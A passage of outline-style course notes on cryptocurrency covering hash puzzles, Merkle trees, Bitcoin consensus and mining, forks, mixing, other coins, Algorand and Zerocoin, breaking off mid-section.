            - To use a commitment scheme, one commits to a value, and publishes the commitment com
            - At a later point, if he wants to reveal the value that he committed to earlier, he publishes the key and the value (msg); now, anybody can verify that msg was indeed the value committed to earlier
          - Search puzzle
            - Components
              - Hash function, H
              - Value, id (which we call the puzzle-ID, random)
              - Target set Y
            - A solution is a value x such that H(id | x) ∈ Y
            - Solving the puzzle requires finding an input so that the output falls within the set Y, which is typically much smaller than the set of all outputs so the size of Y determines how hard the puzzle is
              - If Y is the set of all n-bit strings the puzzle is trivial
              - If Y has only 1 element the puzzle is maximally hard (hiding property)
              - If Y is the set of all strings ending with 0 (bit); then I expect that if I try a random x I have 0.5 probability that the last bit of H(id | x) is 0 (we want that there is no way to improve significantly 0.5)
              - If Y is a string of 256 bits and cardinality k then if we try a random x we  expect that the probability that H(id | x) ∈ Y is ~  k / 2^256
              - If a search puzzle is puzzle-friendly, this implies that there’s no solving strategy for this puzzle which is much better than just trying random values of x
          - Blockchain
            - How it works

              

              - If an adversary modifies data anywhere in the block chain, it will result in the next hash pointer being incorrect
            - Merkle tree

              

              - To prove that a data block is included in the tree, one only needs to show the blocks in the path from that data block to the root
            - Explanation
              - The blockchain is a data structure that stores transactions that is similar to a linked list; data is split into containers (blocks)
              - A block consists of a header and the transactions container
                - Inside the block, a Merkle tree is used
              - Each block is connected with its predecessor with a cryptographically secured reference; this makes the data structure tamper-evident
              - Development and maintenance of a public blockchain are expensive, but digital money can justify this overhead
              - **Blockchains don’t guarantee truth**: they preserve truth & lies from later alteration allowing one to securely analyze them and be more confident in uncovering the lies
      - Digital signatures (and public key)
        - Algorithms
          - (sk, pk) := generateKeys(keysize)
            - The generateKeys method takes a key size and generates a key pair
            - The secret key sk is kept privately and used to sign messages
            - pk is the public verification key that you give to everybody
          - sig := sign(sk, message)
            - Takes a message, msg, and a secret key, sk, as input and outputs a signature for the msg under sk
          - isValid := verify(pk, message, sig)
            - Takes a message, a signature, and a public key as input; it returns a boolean value, isValid, that will be true if sig is a valid signature
        - Properties
          - Valid signatures must verify verify(pk, message, sign(sk, message)) == true
          - Signatures are unforgeable
        - What it is used for
          - Decentralized identity management
            - Rather than having a central authority that you have to go in order to register as a user in a system, you can register as a user all by yourself
            - If you want a new identity, you can just generate one at any time, and you can make as many as you want
            - These identities are called addresses (address is a hash of a public key)
  - Digital coin attempts
    - Goofy coin: decentralized but allows double spending
      - How it works
        - CREATE COIN
          - A designated entity, Goofy, can create new coins whenever he wants and these newly created coins belong to him
          - How to create a coin
            - Goofy generates a unique coin ID uniqueCoinID that he’s never generated before and constructs the string “CreateCoin [uniqueCoinID]”
            - He then computes the digital signature of this string with his secret signing key; the string, together with Goofy’s signature, is a coin
            - Anyone can verify that the coin contains Goofy’s valid signature of a CreateCoin statement, is a valid coin
        - SPENDING
          - Whoever owns a coin can transfer it on to someone else using digital signatures or other crypto function
          - Example
            - Goofy wants to transfer a coin that he created to Alice; to do this he creates a new statement that says “Pay this to Alice” where “this” is a hash pointer that references the coin in question and signs it
            - Since Goofy is the one who originally owned that coin, he has to sign any transaction that spends the coin
            - Once this data structure representing Goofy’s transaction signed by him exists, Alice owns the coin; she can prove to anyone that she owns the coin, because she can present the data structure with Goofy’s valid signature
            - Furthermore, it points to a valid coin that was owned by Goofy
      - Problem: double spending
        - Alice can spend similarly; she creates a statement that says, “Pay this coin to Bob’s public key” where “this” is a hash pointer to the coin that was owned by her
        - Problem: Alice signs “Pay this coin to Bob’s public key” and “Pay this coin to Charlie’s public key”
    - Scrooge coin: centralized, no double spending 
      - How it works
        - A designated entity called Scrooge publishes a history of all the transactions that have happened; to do this he uses a block chain, which is digitally signed by Scrooge
        - Payment valid if
          - The consumed coins are valid (they really were created in previous transactions)
          - The consumed coins were not already consumed in some previous transaction (not a double-spend)
          - The total value of the coins that come out of this transaction is equal to the total value of the coins that went in (only Scrooge can create new value)
          - The transaction is validly signed by the owners of all of the consumed coins
        - If valid Scrooge writes it into the history by appending it to the block chain, after which everyone can see that this transaction has happened
        - Coins in this system are immutable: each coin is created, once, in one transaction and later consumed in some other transaction (to subdivide a coin, Alice create a new transaction that consumes that one coin, and then produces two new coins of the same total value)
      - Problem: Scrooge, he has too much influence
        - He can’t create fake transactions, because he can’t forge other people’s signatures but he could stop endorsing transactions from some users, denying them service and making their coins unspendable
        - Scrooge can also of course create as many new coins for himself as he wants
        - Scrooge could get bored of the whole system and stop updating the block chain completely
  - Digital coin solution: distributed consensus
    - Bitcoin
      - Personal identities based on public key to guarantee anonymity
      - Cryptography to guarantee authentication of transactions
      - There is no central authority
      - The network of users keep many copies of the ledger (like an accounting book) consistently (there is an agreement on the correct one, the one contained in the majority of nodes)
    - Distributed consensus protocol in bitcoin
      - There are n nodes that each have an input value; some of these nodes are faulty or malicious
      - Properties
        - It must terminate with all honest nodes in agreement on the value
        - The value must have been generated by an honest node
      - Payment
        - When Alice wants to pay Bob, she broadcasts a transaction to all Bitcoin nodes that comprise the peer-to-peer network
        - Nodes must agree on exactly which transactions were broadcast and the order in which these transactions happened
        - All the nodes have a ledger that they’ve reached consensus on
        - The protocol is able to keep consistency; all nodes agree on a single, global ledger
        - Transations are grouped into blocks: consensus on a block-by-block basis
      - Transactions and block
        - A transaction contains Alice’s signature, an instruction to pay to Bob’s public key, and a hash
          - The hash represents a pointer to a previous transaction output that Alice received and is now spending
          - The pointer references a transaction that was included in some previous block in the consensus chain
        - Blocks (set of transactions): include a hash pointer to the previous block that they’re extending; extending a block takes a random time and significant computational effort
        - Ledger (set of blocks): contains all blocks with all Bitcoin transactions
      - How nodes reach consensus on a block
        - Theory
          - At regular intervals each node with a ledger proposes a new block to be added containing its own outstanding transaction set
          - Then all nodes execute some consensus protocol, where each node’s input is its own proposed block
          - Some nodes may be malicious and put invalid transactions into their blocks, but we might assume that other nodes will be honest
          - If the consensus protocol succeeds, a valid block will be selected as the output
          - There may be some other valid outstanding transactions that did not get included in the block, but this is not a problem (wait and get into the next block)
        - Problems
          - Latency (no global time) and nodes crashing
            - Consensus is reached over a long period (no time guarantee)
            - In about an hour most nodes reach consensus but even at the end of that time, nodes can’t be certain that any particular transaction or a block has made it into the ledger; as time goes on, the probability increases
          - Malicious nodes that deliberate try to subvert the process (byzantine generals problem): impossible to achieve if one-third or more of the generals are traitors
            - In Bitcoin there is no central authority to assign identities to participants and verify that they’re not creating new nodes every 5 minutes 
            - Attacks
              - Sybil attack: Sybils are just copies of nodes that a malicious adversary can create to look like there are a lot of different participants
              - Anonimity: nodes have no identities 
        - Real consensus algorithm (assume the ability to select a random node in a manner that is not vulnerable to Sybil attacks)
          1. New transactions are broadcast to all nodes
          2. Each node collects new transactions into a block
          3. In each round a random node gets to broadcast its block
          4. Other nodes accept the block only if all transactions in it are valid 
          5. Nodes express their acceptance of the block by including its hash in the next block they create 
          6. If there are more possibilities the node chooses the longest chain
        - Problems
          - Stealing Bitcoins: SOLVED
            - Can Alice steal Bitcoins belonging to another user at an address she doesn’t control? NO
            - Even if it is Alice’s turn to propose the next block in the chain, she cannot steal other users’ bitcoins (doing so would require Alice to forge the owners’ signatures)
          - DoS: SOLVED
            - Alice can decide that she will not include any transactions originating from Bob’s address in any block that she proposes to get onto the block chain: she’s denying service to Bob
            - If Bob’s transaction doesn’t make it into the next block that Alice proposes, he will just wait until an honest node gets the chance to propose a block
          - Double spending: "SOLVED"
            - Alice creates a Bitcoin transaction from her address to Bob’s and broadcasts it to the network (we assume a majority of honest nodes  and that some honest node creates the next block)
            - There is now a block that was created by an honest node that contains a transaction that represents a payment from Alice to the merchant Bob
            - Suppose the next random node that is selected in the next round happens to be controlled by Alice: Alice  proposes a block that ignores the block that contains the payment to Bob and instead contains a pointer to the previous block and includes a transaction that transfers the coins that she was sending to Bob to a different address that she herself controls
            - There are two blocks that contradict each other:
              - Alice → Bob transaction
              - Alice → Alice transaction
            - Which of the two block the network will reach consensus?
            - Honest nodes follow the policy of extending the longest valid branch, so which branch will they extend? We do not know!!
            - At the beginning the two branches have the same length; the node that chooses the next block then may decide to build upon either one of them, and this choice will largely determine whether or not the double-spend succeeds
            - "Solution": the accepted transaction is decided within some time window; more time more certainty
            - But it could be that the block containing the short transaction to Bob is ignored by the network, and this is now called an orphan block
      - How a node computes a new block: Hash puzzles
        - How to
          - The node that proposes a block is required to find a number (nonce) such that when you concatenate the nonce, the previous hash, and the list of transactions that comprise that block and take the hash of this whole string, then that hash output should be a number that falls into a target space that is quite small in relation to the the much larger output space of that hash function
          - If the hash function is good then this is computationally hard; hence this requires computation power and time
        - Hash puzzles
          - Properties
            - Difficult to compute
              - The process of repeatedly trying and solving these hash puzzles is known as Bitcoin mining; even though technically anybody can be a miner, there’s been a lot of concentration of power in the mining ecosystem due to the high cost of mining
            - Parametrizable difficulty (not fixed forever)
              - Nodes automatically recalculate the difficulty (target set of the hash function) as a fraction of the output space of the hash function every 2016 blocks
              - They recalculate in such a way that the average time between successive blocks produced in the Bitcoin network is about 10 minutes
              - With a 10-minute average time between blocks, 2016 blocks works out to two weeks; in other words, the recalculation happens roughly every two week
              - Why 10-minute?
                - If blocks were to come very close together, then there would be a lot of inefficiency, and we would lose the optimization benefits of being able to put a lot of transactions in a single block
              - How long it will take a miner to find a block?
                - Average time = 10 minutes/fraction Hash power
                - A miner with 0.1 percent of the total network hash power finds a block once every week
            - The nonce that makes the block hash fall in the target must be published as part of the block, it is thus trivial for any other node to verify that the output is less than the target
      - Block reward for miners
        - The node that creates a block includes a special transaction: coin-creation transaction (analogous to CreateCoins in Scroogecoin), and the node can choose the recipient address of this transact
        - This is the payment to the node in exchange for the service of creating that block
        - Today the value of the block reward is 25 Bitcoins but it actually halves every 210000 blocks (rate drops roughly every four years)
        - Every ten minutes, one lucky Bitcoin miner earns a reward for extending the block chain by one block
        - Mining is the only mechanism for creating new bitcoins (total number of Bitcoins will never exceed 21M)
        - The rewarded miner also receives all (optional) transaction fees in the block
        - A node collect its reward only if the block in question ends up on the long-term consensus branch so block reward is a subtle and very powerful trick, it incentivize nodes to behave honestly
        - The creator of a transaction can make the total value of the transaction outputs less than the total value of its inputs; whoever creates the block that first puts that transaction into the block chain gets the difference: a transaction fee
          - No fee if
            - The transaction is less than 1000 bytes in size
            - All outputs are 0.01 BTC or larger
          - Otherwise a fee is charged and that fee is about 0.0001 BTC per 1000 bytes
          - If you don't pay the fee the transaction will eventually happen but high cost of time
      - Full node and light node
        - Any computer that connects to the Bitcoin network is called a node
        - Full nodes: fully verify all of the rules of Bitcoin
          - Download the blockchain
          - Does not propose new blocks but stores and answers queries from other nodes
          - Pros
            - Security: running a full node is the only way you can use Bitcoin in a trustless way, you will know for sure that all the rules of Bitcoin are being followed
            - Privacy: full nodes are currently the most private way to use Bitcoin, with nobody else learning which bitcoin addresses belong to you
            - Economic strength: it is critical for Bitcoin's survival that the great majority of the Bitcoin economy be backed by full nodes, not lightweight nodes (else adversaries will grow in number and make bitcoin unusable)
        - Light Nodes
          - Does not download the complete blockchain, downloads the block headers only to validate the authenticity of the transactions
          - Served by full nodes to connect to the Bitcoin network
          - Use a method called Simрlifiеd рауmеnt vеrifiсаtiоn (SPV) to verify transactions
          - Lightweight node wallets have limitations
            - Validation: if somebody pays a light wallet user with fake bitcoins, then the wallet will accept them
            - Privacy: light wallets typically send addresses to a trusted third party and receive wallet balance and history; this allows the trusted third party to spy on all the users past and future transactions
    - Mechanics
      - Change addresses: Alice have to send money to herself (new address)
      - Efficient verification: when a new transaction is added to the ledger, how easy is it to check if it is valid?
        - To ensure Alice hasn’t spent the money she has we need to scan the block chain between the referenced transaction (bitcoin in) and the latest block (bitcoin out)
      - Consolidating funds: if Bob received money in two different transactions and wants to spend all bitcoins in a transaction he creates a transaction with the two inputs and one output, with the output address being one that he owns
      - Joint payments (by two or more people): say Carol and Bob both want to pay David in a single transaction; they can create a transaction with two inputs and one output, but with the two inputs owned by two different people (the transaction will need two separate signatures, one by Carol and one by Bob)
      - Escrow Transactions
        - Alice buys something but she does not want to pay until she is sure to receive the object; she doesn’t send the money directly to Bob, she creates a MULTISIG transaction that requires two of three people to sign in order to redeem the coins (Alice, Bob, and some third party arbitrator, Judy)
        - A 2-of-3 MULTISIG transaction specifies that money can be spent if any two among Alice, Bob, and Judy sign
        - The money is kept in deposit: if there is no problem Alice and Bob sign an Bob can use the coins, if there is dispute they call Judy as a judge to solve the issue
      - Green addresses
        - Alice wants to pay Bob, and Bob is offline so cannot check if a transaction that Alice is sending is actually there; we introduce a third party
        - Alice asks the third to send the money to Bob, the third takes money from Alice and gives to Bob
    - Bitcoin transaction
      - Metadata
        - Size of transaction
        - Number of inputs
        - Number of outputs
        - Hash of the entire transaction
        - lock_time
      - Inputs: each input specifies a previous transaction
        - Index of the previous transaction’s outputs that’s being claimed
        - Signature (hash)
      - Outputs: for each output the sum of all the output values has to be less than or equal to the sum of all the input values 
    - Bitcoin block

      

    - Bitcoin block header

      
    
    - Hash blocks
      - Bitcoin hashes many transactions in one block
        - To check validity of a block is faster than separately checking the validity of many transactions
        - If transactions are grouped how do we check validity of each single transaction? 
          - A transaction does NOT know which block it belongs; `blockexplorer` maintain index of transactions so you give the transaction and you get the block
          - Merkle Trees are used to check if a transation is in a block
        - Structure

          

          

          - A node can prove that a transaction K is included in the block by producing a merkle path that is only four 32-byte hashes long (128 bytes total): the path consists of the four hashes (in blue) HL, HIJ, HMNOP and HABCDEFGH
          - With those four hashes and computing four additional pair-wise hashes HKL, HIJKL, HIJKLMNOP, and the merkle tree root, any node can prove that HK (noted in green in the diagram) is included in the merkle root
    - Bitcoin network
      - Flooding algorithm is used to publish a new transaction
        - Alice wants to pay Bob some money: she sends this transaction to all the nodes it’s peered with
        - Each of those nodes executes a series of checks to determine validity
        - If the checks pass, the node in turn sends it to all of its peer nodes
        - Nodes that hear about a transaction put them in a pool of transactions that they’ve heard about but aren’t on the block chain yet 
      - 51% attack: what happen if there is an attacker who controls 51 percent or more of the mining power in the Bitcoin network?
        - Can perform DoS: he controls the consensus process of the block chain, so he can simply refuse to create any new blocks that contain transactions from one address
          - Note: he can’t prevent these transactions from being broadcast to the peer-to-peer network (so the attack is spotted)
    - Miner task
      1. Listen for transactions on the network and validate them by checking that signatures are correct and that the outputs being spent haven’t been spent before
      2. Maintain block chain and listen for new blocks: listen for new blocks that are being broadcast to the network and validate each block that you receive by validating each transaction in the block and checking that the block contains a valid nonce
      3. Assemble a candidate block: group transactions that you heard about into a new block that extends the latest block you know about; you must make sure that each transaction included in your block is valid
      4. Find a nonce that makes your block valid
      5. Propose the block and hope your block is accepted (there’s no guarantee that your block will become part of the consensus chain)
         - You have to hope that other miners accept your block and start mining on top of it, instead of some competitor’s block
    - Mining hardware: farms use Application-Specific Integrated Circuits, they place the farm in cold areas where the cost of electricity is low and the bandwidth is high
    - Mining pool
      - If you start the mining business and you are small the variance of having one block accepted is very high
      - To decrease risk: mining pool
        - A group of miners will form a pool and all attempt to mine a block with a designated coinbase recipient
        - That recipient is called the pool manager; no matter who actually finds the block, the pool manager will receive the rewards
        - The pool manager will take that revenue and distribute it to all the participants in the pool based on how much work each participant actually performe
    - How to Store and Use Bitcoins
      - Storage types
        - Hot storage: storing bitcoins on your computer is like carrying money around in your wallet - convenient but also risky
        - Cold storage: offline, locked away somewhere and not connected to the internet
      - To have separate hot and cold storage, you need to have separate secret keys
        - Hierarchical wallet: used to transfer a coin from the hot side to the cold side, allows the cold side to use an essentially unbounded number of addresses and the hot side to know about these addresses but only within a short, one-time communication between the two sides
          - How to
            - Given an initial address generation info, there is a function that generates a sequence of public and private keys: for any integer i the function generates the i-th address and the i-secret key in the sequence
      - Secret sharing
        - We want to divide our secret key into N pieces
        - If we're given any K of those pieces then we'll be able to reconstruct the original secret, else no
    - Bitcoin provides anonymity?
      - Bitcoins: addresses are public key hashes rather than real identities
      - So it is not anonymous; bitcoin addresses -> pseudo-identity (pseudonymity)
      - Anonymity vs. Privacy
        - Anonymity is insufficient for privacy
        - Anonymity is necessary for privacy
        - Anonymity is unachievable in practice
      - Unlinkability: different interactions of the same user with the system should not be linkable to each other
      - Anonymity = pseudonymity + unlinkability
      - Unlinkability in bitcoin
        - Hard to link different addresses of the same user
        - Hard to link different transactions of the same user
        - Hard to link sender of a payment to its recipient
      - Why is unlinkability needed?
        - Bitcoin Block chain (and transactions) is public
        - Linking Bitcoin addresses to real identities is possible
          - Easy: many Bitcoin services require real identity
          - Complicated: linked profiles can be deanonymized by a variety of side channels
        - Best practice: always receive at fresh address
    - Bitcoin deanonymization
      - Can we connect little clusters corresponding to individuals to their real-life identities?
        - Directly transacting with individuals
        - Via service providers: eventually a bitcoin user will interact with a service provider that must ask your identity (by the law)
        - Carelessness: people are not always concerned
        - Use of network layer characteristic: often the first node to inform you of a transaction is probably the source of it
    - Conclusion: bitcoin is not anonymous, is pseudonymous, but pseudonymity is not enough if your goal is to achieve privacy
    - Regulating Bitcoin
      - Bitcoin’s original vision is in tension with regulation and government control
      - Strong cyber-libertarianism streak
      - The decentralized design makes it harder, but by no means impossible, to regulate
        - Untraceable digital cash defeats capital controls
        - Country can’t stop Bitcoin value from flowing in or out
        - Government countermeasure: disconnect BTC world from financial institutions (China)
        - Untraceable digital cash facilitates some crimes
          - Kidnapping and extortion
          - Tax evasion
          - Sale of illegal items
    - How to make Bitcoin anonymous
      - Mixing
        - Mixing services
          - Used to mix one's funds with other people's money, intending to confuse the trail back to the funds' original source
          - Promise not to keep records
          - Don’t ask for your identity
          - Essentially swaps a user’s coin (address) with other users’ coins (addresses)
          - Relatively small anonymity set (only comprise of those users who use the mixing service at that instant)
          - Principles
            - Use a series of mixes

              

            - Uniform transactions (all mix transactions must have the same value)
            - Client side must be automated
          - Problem: mixing services may themselves be operating with anonymity so if the mixing output fails to be delivered or access to funds is denied there is no recourse
        - Decentralized mixing
          - How it works: coinjoin
            - Normal transaction

              

            - One mixing round

              

          - Algorithm
            1. Find peers who want to mix
            2. Exchange input/output addresses 
            3. Construct transaction
            4. Send it around, collect signatures (before signing, each peer checks if his output is present)
            5. Broadcast the transaction
          - Problems
            - How to find peers
              - Problems: use an (un)trusted server -> the server learns the mapping and peers know your input-output mapping
              - Naive solution
                1. Exchange inputs
                2. Disconnect and reconnect over Tor 
                3. Exchange outputs
              - Better solution: special-purpose anonymous routing mechanism
            - Denial of service
              - Solutions
                - Proof of work
                - Proof of burn
                - Server kicks out malicious participant
                - Cryptographic “blame” protocol 
      - Merge avoidance: instead of a single payment transaction receiver provides multiple output addresses, sender avoids combining different inputs

        

    - Hard fork, soft fork and split coins
      - Fork: what happens when a blockchain diverges into two potential paths; either with regard to a network’s transaction history or a new rule in deciding what makes a transaction valid (can cause a network to permanently split, creating two blockchain histories and two separate currencies)
      - Hard fork (NOT AN ORPHAN BLOCK): software upgrade that introduces a new rule to the network that isn't compatible with the older software; you can think of a hard fork as an expansion of the rules (a new rule that allows block size to be 2MB instead of 1MB would require a hard fork)
        - What happens: nodes that continue running the old version of the socware will see the new transactions as invalid; so, to switch over to the new chain and to continue to mine valid blocks, all of the nodes in the network need to upgrade to the new rules
        - What can go wrong: can cause a network to permanently split, creating two blockchain histories and two separate currencies
      - Soft fork: any change that's backward compatible; say, instead of 1MB blocks, a new rule might only allow 500K blocks
        - What happens: non-upgraded nodes will still see the new transactions as valid, however, if non-upgraded nodes continue to mine blocks, the blocks they mine will be rejected by the upgraded nodes
        - What can go wrong: when a soft fork is supported by only a minority of hash power in the network, it could become the shortest chain and get orphaned by the network or it can act like a hard fork, and one chain can double
        - Most commonly used option to upgrade the bitcoin blockchain so far
      - Example hard fork
        - A block that had a larger number of total transaction inputs than previously seen was mined and broadcasted; Bitcoin 0.8 nodes were able to handle this, but some pre-0.8 Bitcoin nodes rejected it
        - In order to restore a canonical chain as soon as possible, miners  BTCGuild and Slush downgraded their Bitcoin 0.8 nodes to 0.7 so their pools would also reject the larger block so the 0.8 nodes reorganised to the pre-0.8 chain
      - Split coins: generated from a hard fork where nodes don't realign
        - Bitcoin Cash: first (Aug. 2017); motivation reduce size of transaction
        - Bitcoin SV: (November 2018); motivation new mining algorithm that tries to limit the use of big data center
        - ...
    - Transaction Throughput Problem
      - Mempool
        - Every time a user sends a Bitcoin transaction the transaction is added into the memory pool which is essentially a pool of all unconfirmed transactions in the Bitcoin network
        - From the mempool, miners select transactions that they want to verify; once miners validate a transaction they add it to a new block, which is eventually published to the blockchain
        - Other nodes then iterate through this newly published block’s transactions to ensure the block is valid, before accepting the block as a part of its ledger 
      - Throughput of transactions
        - A simple transaction (1 input 2 outputs) has size approx. 226 bytes
        - A block’s size is limited to 1MB (1000000 bytes)
        - A block is published in the blockchain once every 10 minutes on average (600 seconds)
        - So number of transations every 10 minutes is at most `1.000.000/(600 * 226) = 7.37` per second (between 4 and 7)
      - If there are more unconfirmed transactions in the mempool, how does a miner select which transactions to verify? Transaction fees!
      - The sender of a transaction has the option of adding a custom transaction fee for the miner, incentivizing a miner to select the transaction and have it verified faster
      - The problem: transactions fees will increase and people will leave Bitcoin
      - Solutions
        1. Raise the block size from 1 MB thus allowing more transactions per block
           - Millions of people use Bitcoin, gaining consensus is difficult
           - Bitcoin’s user base continues to grow, there will eventually be another backlog of unconfirmed transactions, so another block size increase will be needed, and subsequently another hard fork
        2. Blocks can have any size
           - To reach consensus is more difficult
           - Handling a big block is impractical and will restrict mining even more introducing an element of centralization
           - Once a block is mined, all other nodes must validate the block before accepting it; if the block size is incredibly large and somebody were to publish an invalid block, nodes would waste a large amount of time attempting to validate the block before discarding it (allows a denial of service attack)
        3. So.. no solution?
- Other digital coins
  - Concepts
    - Proof of Work (PoW) - Bitcoin
      - In a PoW system, network participants have to solve so-called “cryptographic puzzles” to be allowed to add new “blocks” to the blockchain; this puzzle-solving process is commonly referred to as “mining”
      - If a network participant solves a cryptographic puzzle, it proves that he has completed the work, and is rewarded with digital form of value
    - Proof of Stake (PoS) - Other currencies
      - In a PoS system, a transaction validator (i.e. a network node) must prove ownership of a certain asset (or in the case of cryptocurrencies, a certain amount of coins) in order to participate in the validaIon of transactions; this act of validating transactions is called “forging”
      - Depending on how many coins the validator holds, he will have a higher chance of being the one to validate the next block
      - The transaction validator is paid a transaction fee for his validation services by the transacting parties
    - Permissionless vs permissioned blockchain
      - Permissionless (most cryptocurrencies including Bitcoin): a person can join or leave the network at will, without having to be (pre-)approved by any (central) entity (no central owner of the network and software, identical copies of the ledger are distributed to all the nodes in the network)
      - Permissioned: transaction validators (i.e. nodes) have to be pre-selected by a network administrator (who sets the rules for the ledger) to be able to join the network (easily verify the identity of the network participants, at the same time it also requires network participants to put trust in a central coordinating entity to select reliable network nodes)
        - Subcategories
          - Open or public: accessed and viewed by anyone, but where only authorised network participants can generate transactions and/or update the state of the ledger
            - Transactions can be validated and executed without the intermediation of a trusted third-party
          - Closed or “enterprise”: access is restricted and where only the network administrator can generate transactions and update the state of the ledger
  - Currencies
    - Ethereum (2015)
      - Permissionless blockchain
      - Decentralized platform that runs “smart contracts”
      - Smart contracts are “self-executing” contracts or applications that run exactly as programmed without any possibility of downtime (i.e. the blockchain  is always  running), censorship, fraud or third-party interference
      - Capability that goes far beyond that of a pure P2P digital cash equivalent like Bitcoin: it is much like a smartphone operating system on top of which software applications can be built
      - Is not a cryptocurrency, however requires a form of on-chain value to incentivise transaction validation within the network (i.e. a form of payment for the network nodes that execute the operations)
      - This is where Ethereum’s native cryptocurrency “ether” (ETH) comes into play; it does not only allow smart contracts to be built on the Ethereum platform (i.e. it fuels them), but it also functions as a medium of exchange
    - RIPPLE
      - Public permissioned blockchain
      - Open-source, P2P decentralized digital payment platform that allows for fast transfers of currency (e.g. US Dollar, Yen, Bitcoin, ...)
      - Ripple’s uses the cryptocurrency XRP which was built to become a bridge currency to allow financial institutions to settle cross-border payments a lot faster and cheaper than they can using the global payment networks that are in place today, which can be slow and involve multiple middlemen (i.e. banks)
      - XRP can handle more than 1,500 transactions per second
      - XRP is not based on a PoW or a PoS mechanism to validate transactions, but it makes use of its own specific consensus protocol
      - The total supply of XRP has been fully “pre-mined” by its inventors: 8 B XRP is held by Ripple, 39 B XRP has been distributed and 52 B XRP has been placed in escrow to create certainty of XRP supply at any given time
    - Stellar
      - Public permissionless blockchain
      - Similar to Ripple: Stellar is an open-source, distributed payments infrastructure, development is supported by the non-profit organization Stellar.org
      - Its goal is to connect people to low-cost financial services to fight poverty and develop individual potential
      - Can also be used to build smart contracts
      - It is not based on a PoW or PoS consensus mechanism, but has its own specific consensus protocol
      - Stellar is home to the cryptocurrency Lumen (XLM) that are used to pay for transactions on the Stellar network; they contribute to the ability to move money around the world and to conduct transactions between different currencies quickly and securely
      - Total supply of Stellar Lumens is “pre-mined”; held by Stellar.org who has been given the task to distribute Lumens for free in the following manner: 50% is to be given away to individuals (via a direct sign-up program), 25% is to be given away to partners (via a specific partnership program), 20% is given away to Bitcoin and XRP holders and 5% is reserved for Stellar.org’s operational expenses
    - Bitcoin Cash (BCH)
      - Open, permissionless blockchain
      - Hard fork of the Bitcoin blockchain: some Bitcoin developers wanted to raise the block size limit from 1MB to 8MB to reduce transaction fees and improve confirmation times, whilst others had different plans; because the community could not reach a consensus, the new cryptocurrency Bitcoin Cash was created
        - A direct result of the hard fork is that anyone who held Bitcoin at the time Bitcoin Cash was created also became owner of the same amount of Bitcoin Cash
    - Litecoin
      - Open, permissionless blockchain
      - LTC is an open-source decentralized P2P cryptocurrency
      - Scrypt PoW algorithm, which utilises Bitcoin’s and is based on what is known as the original SHA-256 PoW algorithm
      - Difference from Bitcoin
        - Litecoin offers a much faster transaction speed (Scrypt PoW algorithm): time needed to generate a block on the Bitcoin is about ten minutes, while in Litecoin is approximately 2.5 minutes
        - Total supply limit of Litecoin is with 84 million coins, much higher than the 21 million supply limit of Bitcoin
        - Public ledger
    - IOTA
      - Permissionless distributed ledger
      - Open-source eco-system where people and machines can transfer value (i.e. money) and/or data without any transaction fees in a trustless, permissionless, and decentralized environment
      - Focus on microtransactions
      - Total supply is 2779 B
      - Not based on blockchain technology
        - IOTA’s distributed ledger does not consist of transactions grouped into “blocks” and stored into sequential chains but of a stream of individual transactions entangled together
        - Instead of requiring miners to perform computational PoW and validate transaction blocks in exchange for newly “mined” coins, IOTA’s network participants create a consensus themselves by validaIng two previous transactions each time they wish to make a new transaction; this produces a directed acyclic graph (DAG)
  - They are dying
- ALGORAND
  - The blockchain challenge
    - There are two different needs in a blockchain
      1. Making the blockchain tamper-proof; solved using the one-way hash function (the hash of the latest block is included as part of the next block)
      2. Generating new blocks: how you select a new block to be appended to the chain
         - This is the real challenge: a new block should contain a set of valid transactions that do not appear in the blockchain so far, the problem is that at any point in time two users may have seen the same sequence of blocks but may see different new transactions
    - How you select a new block to be appended to the chain
      - Each transaction is not instantaneously propagated through the network; user U may think the new block ought to be Block U and a user V thinks it ought to be Block V: we need to decide which  block should be appended to the chain (Bitcoin solves this with the proof of work)
  - Blockchain trilemma
    - Existing blockchains can offer at most two of the following three properties
      - Properties
        - Security
        - Scalability
        - Decentralization
      - Example proof
        - Bitcoin suffer of scalability (mining is more and more hard)
        - Permissioned blockchain are not decentralized 
    - Bitcoin has two problems
      1. Proof-of-Work Does Not Scale
      2. Proof-of-Work Results in De-Facto Centralization: Proof-of-work has caused a tremendous concentration of power, this centralization is a consequence of the fact that Proof-of-Work is both expensive and wasteful
    - Ideas
      - Weighted users: users are weighted by the money in their account
        - Consensus algorithm should be a Byzantine Consensus Algorithm (BA)
          - Instead of having all the nodes run BA, let a subset of nodes represent the whole group and run BA*
      - Algorand
        - Weights ensure that the attacker cannot amplify his power by using pseudonyms (as long as the attacker controls less than 1/3 of the monetary value of the system)
        - BA* uses consensus by committee (randomly selects a small set of representatives from the total set of users)
        - Committee members will publicly broadcast messages
      - Implementing Pure PoS
        - A new block is constructed in two phases
          1. A single token is randomly selected, and its owner is the user who proposes the next block
          2. 1000 tokens are selected among all tokens currently in the system; the owners of these 1000 tokens are selected to be part of a phase-2 "committee" which approves the block proposed by the first user (some member of the committee may be chosen twice or more generally some k times, in which case, that member will have k votes in the committee to approve the next block)
        - Scalability
          - Once selected, each member propagates to the network a single, immediately computed message
          - So no matter how many users are in the system, the maximum number of messages that need to be propagated is small (if the committee is 1000 users then there are 1000 short messages) 
        - Security
          - Assume there is a very powerful adversary, capable of corrupting users extremely quickly (adversary will try to corrupt the members of the committee)
          - BUT: he does not know who they are; only they know who they are up to the moment in which they propagate through the network both their winning tickets and their opinions about the block
- Zerocoin and Zerocash
  - Zerocoin: protocol-level mixing
    - Extension of Basecoin (Basecoins can be converted into zerocoins and back, basecoins can be any, more or less, cryptocurrency)
    - A Zerocoin is a cryptographic proof that you owned a Basecoin and made it unspendable (verifiable)
      - Gives you the right to redeem a new Basecoin (somewhat like poker chips) 
    - How it works
      - Suppose you have 1$ on you and you want to anonymize it, in Bitcoin terms, meaning you want to change the owner, without the transaction being public
      - You have access to a secure board (with a trusted guardian)
      - Pin 1$ on the board and receive an anonymous ticket “Certificate : 1$ pinned” from the guardian
      - Give a friend your certificate: the guardian will unpin a 1$ bill from the board and give it to your friend 
    - Challenges
      - How to make sure each proof can only be “spent” once?
        - Commitment
          - Generate a message S (public) and a random secret r
            1. I commit on message by publishing H(S, r)
            2. I can show my commitment on message S by revealing r
          - Equivalent to creating an envelope and successively unpacking it 
      - How to be sure that these proofs do not reveal the owner of the BTC?
        - Zero-knowledge proofs: a way to prove a statement without revealing any other information
          - I know an input r that hashes to some hash in the following set: Hash(S1,r) or Hash(S2,r) or ... Hash(Sn,r)
    - How it works (technically)
      - Minting ("coniare")
        - Generate serial number S (eventually made public) and random secret r (never public, ensures unlinkability)
        - Compute H(S, r)
        - To put H(S, r) on block chain create Mint with 1 bitcoin as input
      - Spend
